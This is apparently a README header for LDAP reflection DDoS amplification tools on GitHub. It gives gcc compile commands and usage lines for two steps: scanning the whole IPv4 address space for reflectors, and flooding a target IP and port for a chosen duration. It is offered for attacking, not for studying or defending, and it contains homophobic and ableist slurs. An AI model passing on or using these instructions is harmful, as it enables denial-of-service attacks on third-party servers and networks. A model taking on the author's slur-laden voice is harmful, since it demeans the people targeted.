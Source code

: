 # Amp
# Hope you DDoSing retards are happy.
# Go Ham And HMU If you need anything
# IG @ FLEXINGONLAMERS
# commands <
# gcc -o NAME NAME.C -pthread
# EX - gcc -o ldap ldap.c -pthread
# for scanning 
# ./name 1.1.1.1 255.255.255.255 name.txt 2 1ms
# ./ldapscan 1.1.1.1 255.255.255.255 ldap.txt 2 1ms
# 1.1.1.1 defines starting range 255.255.255.255 defines end scan range, the name.txt is the reflection file you are scanning everything 
# to, the 2 is the threads being used to run this process and dont worry about the 1ms
# to (hit)
# ./name IP PORT name.txt 2 -1 TIME
# EX ./ldap 1.1.1.1 80 ldap.txt 2 -1 500
# easy af 
# enjoy queers
